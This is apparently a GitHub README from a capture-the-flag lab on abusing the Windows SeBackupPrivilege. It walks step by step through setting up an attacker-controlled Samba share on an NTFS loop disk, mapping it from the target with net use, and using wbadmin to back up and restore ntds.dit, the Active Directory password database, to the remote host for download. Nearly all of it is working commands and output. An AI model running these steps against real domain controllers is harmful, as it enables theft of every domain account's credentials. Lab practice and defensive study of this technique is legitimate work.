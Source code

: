 # SeBackupPrivilege

Exploit with `SeBackupPrivilege`.

You need to setup NTFS Disk to support remote windows backup.

## 0x0 Pre-setup ntfs

```bash
# Create 2G Disk
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

# Mount disk
sudo losetup -fP ntfs.disk

# Check Mount 
losetup -a

# format ntfs
sudo mkfs.ntfs /dev/loop0

# Mount 
sudo mount /dev/loop0 smb/

# Check mount
mount | grep smb

```
## 0x1 Install and setup smb

```bash
sudo vim /etc/samba/smb.conf
```

```config

# Un-command it
# map to guest = bad user

# add config
[mane]
   comment = mane testing
   path = /home/mane/Challenge/smb
   writeable = yes
   guest ok = yes
   read only = no
   valid users = smbuser
   write list = smbuser
   force user = root
```

```bash
sudo service smb restart
```

## 0x2 Testing smb share
```bash
$ smbmap -u 'smbuser' -p 'password' -H 127.0.0.1

[+] IP: 127.0.0.1:445   Name: localhost                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        mane                                                    READ, WRITE     mane testing
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.19.0-Debian)
        smbuser                                                 READ ONLY       Home Directories

```

## 0x3 Mount remote PC

Cache the smb credential

```cmd
net use M: \\10.10.16.14\mane /user:smbuser password

dir M:\
```

## 0x4 Exploit

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.14\mane -include:c:\windows\ntds

# Look at the backup version
wbadmin get versions

# Restore the version
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## 0x5 Finally

When Exploit ok, download ntds.dit in `C:\`.


# Reference

https://rootsecdev.medium.com/abusing-sebackupprivilege-cd5d1a88f992